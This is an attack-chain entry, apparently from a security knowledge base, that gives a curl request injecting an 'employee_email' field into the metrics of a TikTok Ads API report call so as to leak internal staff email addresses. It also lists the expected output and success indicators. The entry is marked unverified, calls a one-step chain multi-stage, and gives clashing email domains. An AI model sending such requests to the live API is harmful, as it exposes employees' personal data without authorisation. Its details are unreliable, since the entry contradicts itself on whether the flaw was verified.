

---
tags:
  - information-disclosure
  - api-vulnerability
  - parameter-tampering
  - tiktok
type: attack_chain
tools: []
tactics:
  - '[[Collection]]'
verified: false
platforms:
  - Web
submitted: true
complexity: medium
created_at: '2024-01-01T00:00:00Z'
procedures:
  - >-
    [[procedures/Exploit-Unauthorized-Metrics-Parameter-for-Employee-Email-Disclosure]]
step_count: 1
techniques:
  - '[[Exploit Public-Facing Application]]'
updated_at: '2025-12-14T17:32:20.575Z'
description: >-
  A single-step attack exploiting a lack of input validation in the TikTok Ads
  API to disclose internal employee email addresses by injecting an unauthorized
  parameter into the metrics field.
skill_level: intermediate
impact_level: medium
id: ffbc3d12-990a-4517-9bfb-b7f4de7f5e42
validated: true
mitre_tactics:
  - '[[Collection]]'
mitre_techniques:
  - '[[Exploit Public-Facing Application]]'
---
# Information Disclosure of Internal Employee Emails via Unauthorized Metrics Parameter in TikTok Ads API

Multi-stage attack chain demonstrating a complete attack workflow.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 1 |
| Execution Time | ~5 minutes |
| Skill Level | Intermediate |
| Complexity | Medium |
| Impact Level | Medium |

## Attack Flow Visualization



## Prerequisites & Requirements

### Required Tools

- None (uses standard HTTP client like curl)

### Target Environment

- Web platform
- TikTok Ads API endpoint (requires authentication token for access)
- No specific ports; standard HTTPS (443)

### Initial Access Requirements

- Valid API credentials or access token for TikTok Ads API
- Network access to TikTok's API endpoints
- No prior system access needed; direct API interaction

## Detailed Attack Procedures

### Step 1: Submit Malicious API Request
procedure: [[procedures/Exploit-Unauthorized-Metrics-Parameter-for-Employee-Email-Disclosure]]

**Objective**: Inject an unauthorized 'employee_email' parameter into the metrics array of the TikTok Ads API request to trigger the disclosure of internal employee email addresses.

**Instructions**: Authenticate to the TikTok Ads API and craft a POST request to the relevant endpoint, appending 'employee_email' to the metrics field. Use [[commands/curl-tiktok-ads-employee-disclosure]] to send the request:

```bash
curl -X POST 'https://ads.tiktok.com/api/v1/reports' \
  -H 'Authorization: Bearer YOUR_ACCESS_TOKEN' \
  -H 'Content-Type: application/json' \
  -d '{"metrics": ["impressions", "clicks", "employee_email"], "dimensions": ["campaign_id"]}'
```

Validate the response for leaked email data.

**Expected Output**: JSON response containing an array or field with internal employee email addresses, such as {"employee_email": ["employee1@tiktok.com", "employee2@tiktok.com"]}. Normal responses would not include this field.

**Success Indicators**:
- Unauthorized 'employee_email' field appears in the API response
- Internal email addresses (e.g., @tiktok-internal.com) are disclosed
- No error for invalid parameter; request processes successfully

## Attack Chain Summary

### Key Achievements

1. Successful injection of unauthorized parameter into API request body
2. Disclosure of sensitive internal employee email addresses
3. Demonstration of medium-severity information leakage without authentication bypass

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[Exploit Public-Facing Application]]

### MITRE ATT&CK Tactics

- [[Collection]]

---
*Last updated: 2024-01-01T00:00:00Z*
